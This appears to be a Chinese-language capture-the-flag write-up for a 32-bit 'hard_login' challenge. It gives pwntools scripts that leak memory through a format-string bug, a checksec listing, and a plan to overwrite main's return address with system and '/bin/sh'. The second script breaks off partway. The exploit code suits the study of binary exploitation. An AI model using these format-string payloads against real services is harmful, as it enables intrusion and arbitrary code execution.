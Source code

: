 ```python
from pwn import *
context.log_level='debug'

def leak(io):
    addr = 0x804a04c
    payload =  "%13$s|||" + p32(addr)
    io.sendlineafter('Username:',payload)
    data = io.recvuntil("|||").split("|||")[0].split("Hello ")[1]
	io.sendlineafter("Password:",data);
    io.recvall()

if __name__ == '__main__':
    ip = '10.112.108.77'
    port = 2336
    io = remote(ip,port)
    leak(io)
```

结果如下：

```shell
'total 1764\n'
    'drwxr-xr-x 2 root root          4096 May 23 16:29 .\n'
    'drwxr-xr-x 8 root root          4096 May 23 16:29 ..\n'
    '-rwxr-x--- 1 root hard_login      39 May 23 16:08 flag\n'
    '-rwxr-xr-x 1 root hard_login    7780 May 23 16:08 hard_login.bak\n'
    '-rwxr-xr-x 1 root root           289 May 23 16:08 index.html\n'
    '-rw-r--r-- 1 root root           612 May 23 16:29 index.nginx-debian.html\n'
```

看到index.html才知道原来是从web上下载二进制文件和libc呀。

下载完了之后开始天真地疯狂修改GOT表。。然后每次都是SIGSEGV，还以为是我写错了于是疯狂检查。直到查看保护机制：

```shell
    Arch:     i386-32-little
    RELRO:    Full RELRO
    Stack:    Canary found
    NX:       NX enabled
    PIE:      No PIE (0x8048000)
```

这个full relro是什么鬼，查了之后发现是防止修改got表的(´ﾟдﾟ`)。。

所以还能想到的就是覆盖返回值了。将main函数返回值覆盖为system，然后在返回值所在地址加八的地方放入/bin/sh的地址。不过返回值所在地址需要先泄漏才可以。/bin/sh我是放在了username里面，但是具体哪个位置不会被之后的程序修改还需要自己试一下。整个exp逻辑如下，先泄漏printf地址，计算system地址；泄漏返回值地址；覆盖返回值地址；覆盖参数地址；放入参数以及通过password的check从而返回。

```python
from pwn import *
context.log_level='debug'
binary = ELF("./hard_login.bak")
printf_got = binary.got["printf"]
libc = ELF("./libc-2.23.so.bak")
#libc = ELF("/lib32/libc.so.6")
libc_sys = libc.symbols["system"]
libc_printf = libc.symbols["printf"]
libc_puts = libc.symbols["puts"]

def unsigned(n):
    return n & 0xFFFFFFFF

def leak(io):
    #----------------------------get sys addr----------------------
    length = 0
    addr = printf_got
    payload =  "%13$s|||" + p32(addr)
    io.sendlineafter('Username:',payload)
```